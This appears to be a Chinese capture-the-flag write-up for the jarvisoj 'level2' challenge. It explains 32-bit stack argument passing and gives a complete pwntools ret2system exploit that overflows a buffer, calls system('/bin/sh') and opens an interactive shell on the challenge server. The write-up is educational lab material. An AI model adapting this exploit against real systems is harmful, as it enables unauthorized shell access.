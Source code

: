 需要注意，32位程序使用栈传递参数，这个和64位使用寄存器然后再栈的方式不太一样。
调用程序后，首先会push ebp，所以需要将ret地址排在前面，
`[ebp][ret][argvs]`

完整的exp如下：
``` python
#!/usr/bin/python

from pwn import *

def exploit():
    global io
    system_addr = 0x08048320
    binsh_addr  = 0x0804A024
    
    payload   = 'A' * 0x88
    payload  += 'A' * 0x4 
    payload  += p32(system_addr) # ret addr
    payload  += 'A' * 0x4        # ebp --> push ebp 
    payload  += p32(binsh_addr)  # binsh
    
    io.sendline(payload)
    
    # get shell
    io.interactive()


if __name__ == '__main__':
    target_elf = './level2'
    #target_libc = './libc-2.23.so'

    target_host = 'pwn2.jarvisoj.com'
    target_port = '9878'

    #context.log_level = 'debug'
    #context.terminal = ['tmux', 'splitw', '-v']

    #gdb.attach(proc.pidof(p)[0])

    elf = ELF(target_elf)
    #libc = ELF(target_libc)

    LOCAL = True
    LOCAL = False

    if LOCAL:
        #io = process(target_elf, env={'LD_PRELOAD':target_libc})
        io = process(target_elf)
        gdb.attach(io, 
        '''b *0x08048475
           x/sg 0x0804A024        
        #b *0x0000000000400DC8''')
    else:
        io = remote(target_host, target_port)
    
    exploit()

```
执行exp获取flag
``` bash
trump@ubuntu:~/Desktop/xman$ python level2_exp.py 
[*] '/home/trump/Desktop/xman/level2'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
```